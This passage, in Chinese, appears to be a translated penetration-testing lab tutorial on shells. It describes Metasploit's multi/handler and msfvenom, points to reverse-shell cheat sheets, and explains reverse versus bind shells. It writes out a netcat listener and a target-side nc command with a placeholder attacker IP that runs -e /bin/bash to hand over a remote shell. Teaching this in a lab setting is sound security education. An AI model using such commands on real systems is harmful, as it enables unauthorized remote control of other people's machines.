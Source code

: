 > 注意，以下有效载荷、有效负载等指的是 payload 的意思。

Metasploit 框架的 `auxiliary/multi/handler` 模块与 socat 和 netcat 一样，提供了用于接收反弹 shell 的功能。由于是 Metasploit 框架的一部分，所以 multi/handler 提供了一种成熟的方式来获取稳定的 shell，并提供了多种进一步的选项来改进捕获到的 shell。它也是与 meterpreter shell 交互的唯一方式，也是处理 staged payload （分阶段 payload？）的最简单方式。


**4. Msfvenom：**

与 multi/handler 一样，**msfvenom** 在技术上是 Metasploit 框架的一部分，但是，它作为独立工具提供。 Msfvenom 用于动态生成 payload 。虽然 msfvenom 可以生成除 reverse 和 bind shell 之外的 payload，但这不是本文的重点。

**Msfvenom 是一个非常强大的工具，因此我们将在专门的任务中更详细地介绍它。** 

除了我们已经介绍过的工具之外，还有许多不同语言的一些 shell 存储库。其中最突出的一个是 [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)。 此外，PentestMonkey [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 也很常用。

除了这些在线资源，Kali Linux 还预装了位于 `/usr/share/webshells` 的各种 webshell。 [SecLists repo](https://github.com/danielmiessler/SecLists) 虽然主要用于单词列表，但也包含一些用于获取 shell 的非常有用的代码。

### 2.3 Shell 的类型

我们主要对两种 shell 感兴趣：Reverse shell 和 bind shell。

- **Reverse shell（反弹/向 shell）** 是指目标被迫连接到您的计算机。在您自己的计算机上，您可以使用上一个任务中提到的工具之一来设置用于接收连接的侦听器。

反向 shell 是绕过防火墙规则的好方法，因为防火墙规则可能会阻止您连接到目标上的任意端口。

反向 shell 的缺点是当通过 Internet 从一台机器接收 shell 时，您需要配置自己的网络以便接受它。（最经典的例子就是使用阿里的云服务器接收反弹的 shell 时要修改安全组规则）


- **bind shell（正向 shell）** 是指在目标上执行代码时，我们直接让其打开一个附加到 shell 上的监听器（即端口）。端口将会向互联网开放，这意味着您可以连接到代码打开的端口并以这种方式获得 RCE 的能力。这具有不需要在您自己的网络上进行任何配置的优点，但可能会被保护目标的防火墙阻止。 

一般情况下，反向 shell 更容易执行和调试。以下会给出反弹 shell 和 正向 shell 的示例，请注意它们间的区别。


**Reverse Shell 的例子：**

让我们从更常见的反向 shell 开始。以下图为例，在左侧我们有一个反向 shell 侦听器——这是接收连接的地方。右侧是发送反向 shell 的模拟（实际上，这更有可能通过远程网站上的代码注入或类似的方式来完成）把左边的图片想象成你自己的电脑，把右边的图片想象成目标。 

在攻击机器上：
`sudo nc -lvnp 443`

在目标机器上：
`nc <攻击机的ip> <攻击机的端口> -e /bin/bash`

![](https://i.imgur.com/L7xHtHv.png)

请注意，在运行右侧的命令后，侦听器会收到一个连接。当运行 `whoami` 命令时，我们看到我们正在以目标用户的身份执行命令。这里重要的是我们正在攻击机上监听，并收到了来自目标的连接。

> nc 的 -e 选项表示在连接成功后要执行的程序，这里表示连接成功之后把自己的 bash 发送到另一端


**bind shell 的例子：**

bind shell 不太常见，但仍然非常有用。 以下图为例，在左侧同样是攻击者的计算机，而右侧依然是我们的模拟目标。但是为了稍微调整一下，这次我们将使用 Windows 目标。
首先，我们在目标上启动一个侦听器——这次我们告诉它连接完毕后执行 cmd.exe。然后，在侦听器启动并运行的情况下，我们从自己的机器连接到新打开的端口。
